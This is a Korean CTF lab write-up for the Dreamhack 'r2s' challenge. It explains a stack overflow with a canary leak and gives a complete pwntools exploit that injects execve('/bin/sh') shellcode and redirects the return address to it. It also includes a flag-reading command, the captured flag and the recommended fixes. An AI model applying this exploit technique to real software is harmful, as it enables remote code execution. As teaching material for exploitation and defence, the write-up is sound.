








# **실습 보고서 - Return to Shellcode (Dreamhack r2s)**

> 실습 환경: **Dreamhack** (Return to Shellcode / `r2s`) · WSL(Ubuntu)에서 분석 문제: 스택 버퍼 오버플로우 + 스택 셸코드 실행 (Return to Shellcode) Exploit Tech: Return to Shellcode 실습 문제
> 

---

## **1. 소스코드 분석**

**소스코드 (`r2s.c`)**



**핵심 포인트**

1. `char buf[0x50];`
    - buf는 0x50(80)바이트 지역 변수
2. 컴파일 옵션 `zexecstack`
    - **스택에서 코드 실행이 가능**(NX 무력화)
    - 스택에 셸코드를 올려 실행 가능
3. `printf("Address of the buf: %p")`
    - **buf의 런타임 주소를 알려줌 (buf 주소 유출)**
    - PIE/ASLR이 켜져 있어도 셸코드 위치를 알 수 있음
4. `printf("Distance ... $rbp")`
    - **buf와 rbp 사이 거리를 알려줌**
    - 오프셋을 직접 구할 필요 없이 받아서 사용
5. `read(0, buf, 0x100)` + `printf("%s", buf)` 
    - read는 널 종료를 안 하므로, 카나리 최하위 널바이트를 덮으면 `%s`로 **카나리를 유출**할 수 있음
6. `gets(buf)` 
    - 입력 길이 제한 없음
    - **RET까지 덮는 오버플로우**

→ 목표: 5로 **카나리를 유출**하고, 6에서 **스택에 셸코드를 올린 뒤 RET를 buf로 덮어** 셸코드를 실행하기

---

## **2. 바이너리 / 보호 기법 확인**

### 2-1. 파일 정보 (file)

```bash
file r2s
```



- `PIE executable` → 코드/스택 주소가 실행마다 랜덤화됨
- `not stripped` → 심볼이 남아 있어 함수 이름으로 디버깅 가능

### 2-2. 보호 기법 (checksec)

```bash
checksec --file=./r2s
```



| **보호 기법** | **결과** | **의미 / 공격에 미치는 영향** |
| --- | --- | --- |
| Canary | **Canary found** | RET 앞 검사값 존재 → 그냥 덮으면 탐지됨 → **카나리 유출 후 복구 필요** |
| NX | **NX disabled** | `-zexecstack` → **스택 실행 가능** → 스택에 올린 셸코드 직접 실행 가능 |
| PIE | **PIE enabled** | 코드/스택 주소 랜덤 → 하지만 프로그램이 **buf 주소를 출력**해줘서 무력화 |
| RELRO | Full RELRO | GOT 읽기전용 (이 문제 풀이와는 무관) |

**→ NX disabled + buf 주소 유출 + 카나리 유출 가능**

→ 전형적인 **Return to Shellcode** 성립 (스택에 셸코드를 넣고, 유출한 주소로 RET를 돌림)

---

## **3. 공격 전략 수립**

앞서 확인한 보호 기법을 정리하면, 이 문제에서 해결해야 할 것은 두 가지다.

| **해결할 것** | **상황** | **돌파 방법** |
| --- | --- | --- |
| PIE (주소 랜덤) | 셸코드 위치를 알아야 RET로 점프 가능 | 프로그램이 출력한 **buf 주소** 사용 |
| Canary | RET 덮으면 변조 탐지 → 강제 종료 | 1단계에서 **유출**, 2단계에서 **원값 복구** |
| (NX) | — | NX가 꺼져 있어 스택 셸코드 실행 가능 → 추가 우회 불필요 |

공격은 두 단계로 나뉜다.

- **1단계** — `read` + `printf("%s")`를 이용해 카나리 값을 유출한다.
- **2단계** — `gets`로 스택에 셸코드를 올리고, 유출한 카나리를 복구한 뒤, RET를 `buf` 주소로 덮어 셸코드를 실행한다.

---

## **4. 스택 프레임 분석**

프로그램이 `Distance between buf and $rbp` 를 직접 출력하므로, 실측값으로 레이아웃을 확정한다.

### 4-1. main 디스어셈블 (GDB)

```bash
gdb ./r2s
(gdb) disassemble main
```



- `sub $0x60, %rsp` → 스택 프레임 **0x60** 확보
- `mov %fs:0x28, %rax` → `mov %rax, -0x8(%rbp)` → **카나리를 `rbp-0x8`에 저장**
- `lea -0x60(%rbp), %rax` → **buf = `rbp-0x60`** (distance 0x60의 근거)

### 4-2. 실행 중 스택 확인 (GDB 라이브 덤프)

```bash
(gdb) break *main+239        # gets 호출 직전 (gets@plt 호출 지점)
(gdb) run
# → [1] Leak the canary 단계에서 임의 입력(예: AAAA) + Enter → 브레이크포인트에서 멈춤
(gdb) x/40gx $rbp-0x60       # buf 시작부터 RET까지 덤프
(gdb) x/gx  $rbp-8           # 카나리 값 (…00 으로 끝남)
(gdb) p/x   $rbp             # SFP 위치
(gdb) x/gx  $rbp+8           # RET
```




### 4-3. 실행 출력으로 거리 확정

프로그램이 `Distance between buf and $rbp` 를 직접 출력하므로, 실측값으로 레이아웃을 확정한다.



- **buf → rbp 거리 = 96 (0x60)**
- 카나리는 `rbp - 8` 에 위치 → **카나리 offset = 96 - 8 = 0x58**
- SFP는 `rbp`, RET는 `rbp + 8`

```
buf +0x00  ┌─────────────────────┐
           │     buf[0x50]       │ ← 셸코드 삽입 (주소 유출됨)
           │   + NOP 패딩        │
buf +0x58  ├─────────────────────┤ ← Canary (최하위 바이트 \x00)
buf +0x60  ├─────────────────────┤ ← SFP (rbp)
buf +0x68  ├─────────────────────┤ ← RET  ← 여기를 buf 주소로 덮음
           └─────────────────────┘
```

| **구분** | **rbp 기준** | **buf 기준 오프셋** |
| --- | --- | --- |
| 버퍼 시작 | rbp - 0x60 | 0 |
| Canary | rbp - 0x08 | **0x58 (88)** |
| SFP | rbp | 0x60 (96) |
| RET | rbp + 0x08 | 0x68 (104) |

> **왜 카나리를 유출할 수 있나?** `read(0, buf, 0x100)`는 입력에 널을 자동으로 붙이지 않는다. 카나리의 최하위 바이트는 항상 `\x00`인데, buf부터 그 널 자리(offset 0x58)까지 전부 non-null로 채우면, `printf("%s", buf)`가 널을 만날 때까지 출력하면서 **카나리 상위 7바이트를 흘린다.** 
→ `canary = \x00 + 유출된 7바이트`
> 

---

## **5. 익스플로잇 작성 (pwntools)**

```python
#!/usr/bin/env python3
# Dreamhack - Return to Shellcode (r2s)
# NX disabled + Canary + PIE → 카나리 leak 후 스택 셸코드로 RET 복귀
from pwnimport *

context.arch ='amd64'

# p = process('./r2s')                              # 로컬 테스트용
p =remote('host3.dreamhack.games', 24552)          # 원격 (포트는 VM마다 바뀜)

# ── 0. 바이너리가 알려주는 정보 받기 ─────────────────
p.recvuntil(b'buf: ')
buf =int(p.recvline().strip(), 16)                 # buf 주소 (PIE 우회)
p.recvuntil(b'$rbp: ')
buf2rbp =int(p.recvline().strip())                 # buf→rbp 거리 (=96)
canary_off = buf2rbp -8                            # 카나리 오프셋 (=0x58)

# ── 1단계: 카나리 leak ───────────────────────────────
p.sendafter(b'Input: ', b'A' *(canary_off +1))    # 카나리 널(LSB)까지 덮기
p.recvuntil(b'A' *(canary_off +1))
canary =u64(b'\x00' + p.recvn(7))                  # \x00 + 유출된 7바이트
log.success(f'canary ={hex(canary)}')

# ── 2단계: 셸코드 + 카나리 복구 + RET 덮기 ───────────
shellcode =asm(shellcraft.sh())                    # execve("/bin/sh")
payload  = shellcode.ljust(canary_off, b'\x90')     # 셸코드 + NOP 패딩 → 카나리 직전까지
payload +=p64(canary)                              # 원래 카나리 복구 (탐지 회피)
payload +=b'B' *8                                 # SFP (더미)
payload +=p64(buf)                                 # RET → buf (셸코드 시작)
p.sendlineafter(b'Input: ', payload)

p.interactive()                                     # 셸 획득
```

**페이로드 구조 (2단계)**

```
[ shellcode + \x90 패딩 (0x58) ][ canary (8) ][ SFP 더미 (8) ][ RET = buf (8) ]
 └──────── 카나리 직전까지 ─────┘└ 원값복구 ┘└──────────┘└ 셸코드로 점프 ┘
```

- `shellcraft.sh()` : `execve("/bin/sh", 0, 0)` 셸코드 (약 48바이트, 0x58 안에 들어감)
- 카나리를 **원래 값으로 복구**해야 함수 종료 시 검사를 통과 → 강제 종료 안 됨
- RET를 **buf 주소**로 덮음 → 함수 종료(`ret`) 시 스택의 셸코드로 점프 → NX 꺼져 있어 실행됨

---

## **6. 실행 & FLAG 획득**

```
source ~/pwn-venv/bin/activate
python3 r2s_exploit.py
```



※ Dreamhack VM은 **셸 연결에 타임아웃**이 있어, `p.interactive()` 진입 후 바로 플래그를 읽어야 한다. 연결이 금방 끊기면 셸 진입 직후 다음 한 줄로 플래그를 긁을 수 있다:

```python
p.sendline(b"(cat /flag; cat flag; cat /home/*/flag*) 2>/dev/null")
print(p.recvall(timeout=4).decode())
```

- **획득 FLAG**: `DH{333eb89c9d2615dd8942ece08c1d34d5}`


---

## **7. 취약점 발생 원인**

- `gets()` 가 **입력 길이를 검사하지 않아** 버퍼 경계를 넘겨 카나리·SFP·RET까지 덮을 수 있다.
- `zexecstack` 컴파일로 **NX가 꺼져** 스택에 올린 셸코드가 그대로 실행된다.
- 디버깅용으로 **buf 주소와 rbp 거리를 출력**해, PIE/ASLR의 주소 랜덤화가 무력화된다.
- `read()` + `printf("%s")` 조합이 **카나리 유출 통로**가 된다 (널 미종료 + 널까지 출력).

---

## **8. 대응 방안**

- `gets()` → **`fgets(buf, sizeof(buf), stdin)`** 로 교체 (길이 제한).
- 컴파일 시 **NX 활성화**(`zexecstack` 제거) → 스택 셸코드 실행 차단.
- 주소·거리 등 **메모리 레이아웃 정보를 출력하지 않기** (info leak 제거) → ASLR/PIE 유효화.
- `read()`로 받은 버퍼를 `%s`로 출력하기 전 **명시적 널 종료 및 길이 관리**.
- 종합적으로 **Canary + NX + PIE/ASLR** 를 함께 적용하는 심층 방어.

---

## **9. 배운 점 / 회고**

- **보호 기법 조합이 공격 기법을 결정**한다는 걸 체감했다. NX가 꺼져 있어 ROP가 아닌 **Return to Shellcode**로 바로 갈 수 있었다.
- 카나리는 "못 뚫는 벽"이 아니라, **유출 통로가 있으면 우회 가능**하다는 점 — 특히 "카나리 LSB = `\x00`" 성질과 `%s`의 동작을 엮는 아이디어가 핵심이었다.
- 바이너리가 친절히 출력해준 **buf 주소/거리**가 사실상 PIE·ASLR을 무력화한다는 점에서, **정보 유출(info leak)이 현대 익스플로잇의 출발점**이라는 걸 실제로 확인했다.
- 공격 성공은 서버 환경(포트 변경, 연결 타임아웃) 같은 **운영 요소**에도 영향을 받는다는 걸 경험했다.